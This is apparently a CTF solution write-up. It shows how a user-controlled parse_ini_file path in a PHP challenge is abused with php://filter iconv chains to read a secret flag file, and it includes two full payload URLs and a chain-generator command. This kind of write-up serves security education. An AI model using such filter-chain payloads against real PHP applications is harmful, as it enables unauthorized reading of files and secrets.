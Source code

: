 ```yaml
---
layout: post
title:  "Poem CTF Solution, the PHP Filter Way"
date:   2025-04-04 06:00:00 +0200
categories: CTF DarkForge PHPFilter
---
```


# DarkForge Labs' First CTF

First off, huge congratulations to everyone who completed the challenge — and a special shoutout to [et3rnos](https://x.com/et3rnos), the first to solve it and our official winner!

This CTF was inspired by the article [*Impossible XXE in PHP*](https://swarm.ptsecurity.com/impossible-xxe-in-php/) by Aleksandr Zhurnakov. If you haven’t read it yet, you’re missing out.

## The Challenge

![The Challenge](/assets/images/8547585d23cb272c9c59d16187874544430ce34b.png)

The challenge was hosted at [https://ctf.darkfor.ge](https://ctf.darkfor.ge/) with the source available on our [GitHub](https://github.com/darkforge-labs/ctf-poem-web).

Digging into [`index.php`](https://github.com/darkforge-labs/ctf-poem-web/blob/main/index.php), we find three interesting things:

- The file parses a user-controlled parameter using:  
  `parse_ini_file($poem_file, true);`
- The `$poem_file` variable is controllable via the `poem_file` GET parameter:  
  `$poem_file = $_GET['poem_file'] ?? '/var/www/html/poem.ini';`
- The INI key it looks for is `POEM`:  
  `$config['POEM']`  
  _(Note: INI keys are **case sensitive**.)_

From the [`Dockerfile`](https://github.com/darkforge-labs/ctf-poem-web/blob/main/Dockerfile), we learn the flag is stored at `/var/secret/flag.txt`.

## Solution

Your first instinct might be to try this:  
[https://ctf.darkfor.ge/?poem_file=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=/var/secret/flag.txt)

But that won’t work. The flag file doesn’t contain INI-formatted content, and `parse_ini_file()` expects a valid format like:

```ini
POEM = FLAG_VALUE
```

So, the trick is to **prepend** the necessary INI key to the flag content.

## Dead Ends

If you’re familiar with the modern [wrapwrap](https://github.com/ambionics/wrapwrap) technique by [Charles Fol](https://x.com/cfreal_), you might try using that. However, due to server constraints on URL length, you’ll hit a "Requested URI Too Long" error.

![URI too long error](/assets/images/6b62b65e86a4665f74c7ca862328fc1cc098ecda.png)

## Filters to the Rescue

It all starts with this legendary post by [Gynvael](https://x.com/gynvael) in 2018:  
[Surprising CTF task solution using php://filter](https://gynvael.coldwind.pl/?id=671)

Shortly after this post, [lolknop](https://x.com/loknop) took it further with a custom payload generator you can find in this [Gist](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d).

This is perfect — we can use it to prepend the line `POEM = ` to the flag content, making it parsable by `parse_ini_file()`.

But... there’s a slight snag. Both `POEM =` and its base64 form `UE9FTSA9` contain characters not supported by lolknop's script. The workaround? Use a **tab** and remove the space before the `=`:

```
\tPOEM=
```

Which base64-encodes to: `CVBPRU09` — a string with characters fully supported by the Gist tooling. Excellent.

This allows us to build a monster filter chain like this:

```
php://filter/.../resource=/var/secret/flag.txt
```

*(Note: Click the link for the full URL)*

[Payload link https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8...\|convert.base64-decode/resource=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8.CSISO2022KR%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.ISO6937.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.1046.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.CP1133.IBM932%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.UTF16LE%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.UTF16.EUCTW%7cconvert.iconv.MAC.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.857.SHIFTJISX0213%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.UTF16LE%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.UTF16.EUCTW%7cconvert.iconv.CP1256.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.851.BIG5%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.base64-decode/resource=/var/secret/flag.txt)

## Easier Payload Generation

For a much cleaner experience, use the [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) by [Rémi Matasse](https://x.com/_remsio_) of Synacktiv. It already maps most ASCII character to their supported encodings.

Just run:

```bash
python php_filter_chain_generator.py --chain 'POEM ='
```

Then replace `resource=` with your target file (`/var/secret/flag.txt`), and voilà, payload done.

*(Note: Click the link for the full URL)*

[https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv...\|convert.base64-encode\|...\|convert.base64-encode\|convert.iconv.UTF8.UTF7\|convert.base64-decode/resource=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8.CSISO2022KR%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.CSIBM1161.UNICODE%7cconvert.iconv.ISO-IR-156.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.8859_3.UTF16%7cconvert.iconv.863.SHIFT_JISX0213%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.INIS.UTF16%7cconvert.iconv.CSIBM1133.IBM943%7cconvert.iconv.GBK.SJIS%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.L6.UNICODE%7cconvert.iconv.CP1282.ISO-IR-90%7cconvert.iconv.CSA_T500.L4%7cconvert.iconv.ISO_8859-2.ISO-IR-103%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.L5.UTF-32%7cconvert.iconv.ISO88594.GB13000%7cconvert.iconv.CP950.SHIFT_JISX0213%7cconvert.iconv.UHC.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.CSIBM1161.UNICODE%7cconvert.iconv.ISO-IR-156.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.IBM860.UTF16%7cconvert.iconv.ISO-IR-143.ISO2022CNEXT%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.INIS.UTF16%7cconvert.iconv.CSIBM1133.IBM943%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.base64-decode/resource=/var/secret/flag.txt)

![Flag Retrieved](/assets/images/3cc56575fc80a023f712eadc961786902d7b0d89.png)

For deeper understanding, I highly recommend reading their full post:  
[*PHP Filters Chain: What is it and how to use it*](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)

You can also explore [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT) by [Wupco](https://github.com/wupco) for fuzzing and payload crafting.

## Final Thoughts

This challenge was all about exploring edge-case behavior in PHP’s obscure corners and the community’s creativity in weaponizing those quirks. The linked articles are truly mind-bending and absolutely worth a read.

Big thanks to everyone who played, and stay tuned, the [DarkForge](https://darkforge.io) team has a lot more coming your way.